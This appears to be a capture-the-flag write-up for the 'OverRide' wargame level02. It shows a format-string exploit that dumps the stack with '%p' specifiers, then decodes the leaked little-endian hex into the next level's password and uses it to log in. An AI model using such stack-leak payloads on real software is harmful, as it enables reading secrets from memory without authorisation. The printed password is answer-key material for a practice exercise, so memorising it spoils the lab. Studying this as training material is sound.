 ## Project README: Finding flag02

When we decompile we can see tat he open the file .pass and reat it into the ptr value. 
Secondl he ask for a username and a password.
Then compare the password we gave with the actual password. If it's the same launch bin sh else exit.

### Analysis
we can see that there is a format string exploit to do if the password is not the same. 
And we know that our password is in the stack.
So what we can do is printing the stack and then see our password.


### Progress

```Bash
level02@OverRide:~$ python -c 'print("AAAA" + " %p"*60)' | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
AAAA 0x7fffffffe500 (nil) 0x70 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025 (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

So the 2a equal * and "207025" is our payload : " %p".
Then we can search for a string that is 40 char long and have a \0 at the end. 
We have this thing "0xfeff00" that looks like a null bite and before we have 
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d that is exactly 40 char long. If we convert to str :
"unPR47hH" + "EAJ5as9Q" + "7zqCWNgX" + "5J5hnGXs" + "H3gPfK9M". But actually we want the reverse of this because of little endian. 

let's try this : 
```sh
python -c 'print("unPR47hH"[::-1] + "EAJ5as9Q"[::-1] + "7zqCWNgX"[::-1] + "5J5hnGXs"[::-1] + "H3gPfK9M"[::-1])'
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level02@OverRide:~$ su level03
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$ 
```

ET VOILA we have our flag.